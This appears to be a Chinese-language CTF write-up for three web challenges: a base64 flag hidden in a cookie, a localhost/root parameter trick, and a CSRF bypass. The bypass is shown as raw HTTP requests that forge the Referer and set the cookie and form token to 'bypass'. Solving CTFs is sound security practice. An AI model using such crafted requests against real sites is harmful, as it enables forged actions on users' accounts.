

# CTF-1

## Web-1

cookie里有flag字段：ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D，url解码+base64解密即可获得flag{cookies-contain-info}


## web-2

name为root，然后host为127.0.0.1即可：




## web-3

参考：

https://cloud.tencent.com/developer/article/1078464

```bash
GET /ga/ HTTP/1.1
Host: 222.186.168.238:30003
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Security-Policy:* .google-analytics.com
Cookie: session=072973b5-b36c-4b88-80f3-c0e65670543f.6jBMMw3_jaIyQLWh9yW9ZvlWi2A; FLAG=ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D; csrftoken=8C29ikcCSHxfTMK4W0oj07XkkMfcp5iJ
Connection: close
Referer: http://222.186.168.238:30003/]csrftoken=bypass
Content-Length: 0

```

再都设置为bypass：

```http
POST /csrf/ HTTP/1.1
Host: 222.186.168.238:30003
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://222.186.168.238:30003
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://222.186.168.238:30003/csrf/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=072973b5-b36c-4b88-80f3-c0e65670543f.6jBMMw3_jaIyQLWh9yW9ZvlWi2A; FLAG=ZmxhZ3tjb29raWVzLWNvbnRhaW4taW5mb30%3D; csrftoken=bypass
Connection: close

csrfmiddlewaretoken=bypass
```

即可获得flag：


